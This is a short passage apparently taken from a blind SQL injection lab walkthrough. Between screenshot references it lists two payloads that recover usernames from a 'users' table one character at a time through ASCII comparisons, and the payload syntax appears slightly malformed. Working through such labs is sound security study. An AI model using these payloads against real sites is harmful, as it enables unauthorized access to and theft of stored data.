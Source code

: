   <img src="img\sql-blind15.jpg" alt="sql-blind15" style="zoom:67%;" />

  - 1’ and ascii(substr((select user from users limit 1,1)1,1))=100 #  //d

  <img src="img\sql-blind16.jpg" alt="sql-blind16" style="zoom:67%;" />

  - 1’ and ascii(substr((select user from users limit 2,1)1,1))=109 #  //m

  <img src="img\sql-blind17.jpg" alt="sql-blind17" style="zoom:67%;" />
